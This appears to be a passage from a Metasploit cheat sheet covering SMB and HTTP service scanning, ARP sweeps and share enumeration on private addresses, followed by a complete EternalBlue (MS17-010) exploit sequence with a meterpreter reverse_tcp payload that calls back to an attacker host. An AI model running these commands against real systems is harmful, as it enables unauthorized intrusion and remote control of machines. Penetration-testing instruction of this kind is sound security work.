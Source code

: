 ### Service Scanning
```bash
# SMB version scanning
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.100
run

# HTTP service detection
use auxiliary/scanner/http/http_version
set RHOSTS 192.168.1.100
set RPORT 80
run
```

### Discovery Scans
```bash
# ARP sweep
use auxiliary/scanner/discovery/arp_sweep
set INTERFACE eth0
set RHOSTS 192.168.1.0/24
run

# SMB share enumeration
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS 192.168.1.100
run
```

## Exploitation

### Basic Exploit Usage
```bash
# Select exploit
use exploit/windows/smb/ms17_010_eternalblue

# Show options
show options

# Set target
set RHOSTS 192.168.1.100

# Set payload
set payload windows/x64/meterpreter/reverse_tcp

# Set LHOST (your IP)
set LHOST 192.168.1.50

# Run exploit
exploit
```
